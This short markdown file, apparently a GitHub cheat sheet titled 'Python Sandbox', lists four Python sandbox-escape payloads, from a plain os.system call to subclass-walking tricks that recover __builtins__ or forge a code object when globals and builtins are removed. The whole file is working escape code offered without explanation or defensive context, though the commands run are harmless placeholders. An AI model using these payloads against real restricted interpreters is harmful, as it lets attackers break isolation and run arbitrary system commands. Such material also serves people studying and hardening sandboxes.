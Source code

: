 # Python Sandbox

## 1) Direct Eval

```
os.system('clear')
```

## 2) No gloabals

```
__import__('os').system('clear')
```

## 3) No globals, no builtins

```
s = """
(lambda fc=(
    lambda n: [
        c for c in 
            ().__class__.__bases__[0].__subclasses__() 
            if c.__name__ == n
        ][0]
    ):
    fc("function")(
        fc("code")(
            0,0,0,0,"KABOOM",(),(),(),"","",0,""
        ),{}
    )()
)()
"""
```

## 4) Builtins removed, import does not work

```
classes = {}.__class__.__base__.__subclasses__()
b = classes[49]()._module.__builtins__
m = b['__import__']('os')
m.system("test")
```
